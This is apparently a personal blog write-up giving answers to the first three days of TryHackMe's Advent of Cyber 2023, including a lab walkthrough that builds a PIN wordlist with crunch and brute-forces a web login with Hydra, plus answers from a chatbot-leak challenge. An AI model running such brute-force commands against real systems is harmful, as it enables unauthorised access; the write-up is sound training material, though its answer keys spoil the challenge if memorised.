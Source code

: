 ```yaml
---
title: Advent of Cyber 2023
author: CYB3RM3
name: CYB3RM3 | Advent of Cyber 2023
date: 2023-12-04 11:41:21 +0100
categories: [TryHackMe, AdventOfCyber]
tags: ["2023", AOC]
---
```


Get started with Cyber Security in 24 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

THM Room : [https://tryhackme.com/room/adventofcyber2023](https://tryhackme.com/room/adventofcyber2023)

## TASK 7 [Day 1] Machine learning Chatbot, tell me, if you're really safe?
### What is McGreedy's personal email address?

![McGreedy's Email](/images/thm/adventofcyber2023/adventofcyber2023_2.png)
_McGreedy's Email_

Answer : t.mcgreedy@antarcticrafts.thm

### What is the password for the IT server room door?

![Password IT door](/images/thm/adventofcyber2023/adventofcyber2023_3.png)
_Password IT door_

Answer : BtY2S02

### What is the name of McGreedy's secret project?

![McGreedy's secret project](/images/thm/adventofcyber2023/adventofcyber2023_1.png)
_McGreedy's secret project_

Answer : Purple Snow

### If you enjoyed this room, we invite you to join our Discord server for ongoing support, exclusive tips, and a community of peers to enhance your Advent of Cyber experience!

No Answer.

## TASK 8 [Day 2] Log analysis O Data, All Ye Faithful
### Open the notebook "Workbook" located in the directory "4_Capstone" on the VM. Use what you have learned today to analyse the packet capture.

No Answer.

### How many packets were captured (looking at the PacketNumber)?

![Number Packets](/images/thm/adventofcyber2023/adventofcyber2023_4.png)
_Number Packets_

Answer : 100

### What IP address sent the most amount of traffic during the packet capture?

![IP](/images/thm/adventofcyber2023/adventofcyber2023_5.png)
_IP_

Answer : 10.10.1.4

### What was the most frequent protocol?

![Protocol](/images/thm/adventofcyber2023/adventofcyber2023_6.png)
_Protocol_

Answer : ICMP

### If you enjoyed today's task, check out the Intro to Log Analysis room.
No Answer.

## TASK 9 [Day 3] Brute-forcing Hydra is Coming to Town 

![Door locked](/images/thm/adventofcyber2023/adventofcyber2023_7.png)
_Door locked_

We can generate a file with all combination "0123456789ABCDEF" with "crunch" :

```console
root@ip-10-10-164-200:~# crunch 3 3 0123456789ABCDEF -o 3digit.txt
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

crunch: 100% completed generating output
root@ip-10-10-164-200:~# ls
3digit.txt 
```
{: .nolineno }

Once done, we can use Hydra to crack the passcode :

```console
hydra -l '' -P 3digit.txt -f -v 10.10.244.212 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000

[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[...]
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[8000][http-post-form] host: 10.10.244.212   password: 6F5
[STATUS] attack finished for 10.10.244.212 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-12-04 11:38:34
```
{: .nolineno }

Testing the found password on the door : 

![Code](/images/thm/adventofcyber2023/adventofcyber2023_8.png)
_code_

![Flag](/images/thm/adventofcyber2023/adventofcyber2023_9.png)
_flag_